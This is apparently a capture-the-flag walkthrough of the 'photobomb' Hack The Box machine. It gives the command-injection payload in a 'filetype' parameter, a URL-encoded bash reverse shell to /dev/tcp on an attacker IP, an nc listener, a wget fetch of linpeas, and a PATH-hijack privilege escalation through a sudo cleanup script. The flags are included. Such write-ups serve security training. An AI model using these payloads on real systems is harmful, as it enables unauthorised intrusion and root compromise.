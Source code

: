 Upon initial enumeration on `photobomb.htb` within the page source code you can see there is a script running in the background `photobomb.js`
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116210743.png)

Going to the `Sources` section in the developer tools you can find hard-coded credentials:
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116210833.png)

- After inputting the relevant credentials you will be at:
	- `http://photobomb.htb/printer`
- There is a download functionality.
- After fuzzing the parameters i.e. `photo`, `filetype` and `dimensions` it can be determined that the `filetype` parameter is vulnerable to `command injection`.
- After running an initial `ping -c 10` I wanted to confirm since it is technically `blind command injection` since we cannot see the output of the commands.
- On host:

```bash
sudo tcpdump -i tun0 icmp
```
- Then send a `POST` request with the following `body` content.

```bash
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;ping+-c+10+your_ip&dimensions=30x20
```
- After confirmation and some additional trial an error, right before attempting to hop on another machine to utilize burp collaborator and it's functionality, I utilized the `Encode/Decode/Hash` functionality on `Zap` and encoded the following text:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.33/4444 <&1'
```
- To:

```bash
bash+-c+%27exec+bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.16.33%2F4444+%3C%261%27
```
- For some reason using the `brave` browser plug-in for `hack-tools` the url-encoding did not work. Anyways this successfully allowed for a reverse shell. Just make sure the proper `nc` listener is set up on the host machine via:

```bash
rlwrap nc -lvnp 4444
```
- To allow for better shell functionality:
- This isn't necessary since we already have a `bash` shell, but for some reason my terminal was acting strange so this allowed the terminal to span the entire screen.
- After checking if `python` was enabled via `python3 --version` it can be executed with no issues.
**create bash shell on new server**  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
**Gives access to clear**
`export TERM=xterm
**background shell**  
`Ctrl+Z`
**turns off own terminal echo which gives access to tab autocompletes, the arrow keys, and Ctrl+C & foregrounds the shell**  
`stty raw -echo; fg`
- The current user will be `wizard` and you can immediately obtain the `user.txt` flag

```bash
cd
cat user.txt

07521826fabfc84c3cd310cc488f2f3f
```

- After initial enumeration:
- We can see that `sudo -l` allows us to execute `/opt/cleanup.sh`

```bash
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
- Here is what it does:

```bash
cat cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

 Let's install `linpeas.sh` 

```bash
cd /tmp
```
- On host ensure you have `linpeas.sh` in the current directory
- I have mine in `~/Downloads/temp`

```bash
cd ~/Downloads/temp
python3 -m http.server
```
- On `wizard`

```bash
wget http://your_ip:8000/linpeas.sh
chmod 700 linpeas.sh
./linpeas.sh > /home/wizard/out.file
```

- Notice the `crontab` file executing every `5` minutes on the hour:

```bash
*/5 * * * * sudo /opt/cleanup.sh
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230116213438.png)

- Take note that the `find` executable is being ran from a `relative` path i.e. `find` instead of `/usr/bin/find`.
- This means we can manipulate the path in which it executes to escalate privileges
- Here is a warning in `linpeas.sh` as well:
![image](https://0xc0rvu5.github.io/docs/assets/images/20230116213652.png)

- Here is a list of world-writable folders:

```bash
find / -writable -type d 2>/dev/null

/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/dbus.socket
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/gpg-agent.service
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/dbus.socket
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service/gpg-agent.service
/dev/mqueue
/dev/shm
/tmp
/tmp/.XIM-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.X11-unix
/tmp/.Test-unix
/tmp/tmux-1000
/var/tmp
/var/crash
/home/wizard
/home/wizard/.gem
/home/wizard/.gem/specs
/home/wizard/.gem/specs/rubygems.org%443
/home/wizard/.gem/specs/rubygems.org%443/quick
/home/wizard/.gem/specs/rubygems.org%443/quick/Marshal.4.8
/home/wizard/.gem/ruby
/home/wizard/.gem/ruby/2.7.0
/home/wizard/.gem/ruby/2.7.0/cache
/home/wizard/photobomb
/home/wizard/photobomb/public
/home/wizard/photobomb/public/ui_images
/home/wizard/photobomb/source_images
/home/wizard/photobomb/resized_images
/home/wizard/photobomb/log
/home/wizard/.cache
/home/wizard/.local
/home/wizard/.local/share
/home/wizard/.local/share/nano
/home/wizard/.gnupg
/home/wizard/.gnupg/private-keys-v1.d
/proc/22684/task/22684/fd
/proc/22684/fd
/proc/22684/map_files
/run/user/1000
/run/user/1000/gnupg
/run/user/1000/systemd
/run/user/1000/systemd/units
/run/screen
/run/lock
```

- `/tmp` will do just fine

```bash
cd temp
```
- Let's make the binary which will elevate our privlieges:

```bash
echo "/bin/bash" > find
chmod 777 find
```
- Now run the following command pre-fixed with `sudo`:

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```
- Voila!!! Root!

```bash
cat /home/wizard/user.txt

07521826fabfc84c3cd310cc488f2f3f

cat /root/root.txt

d223b7b2cabac9d71542dc9e7481222f
```

#hacking
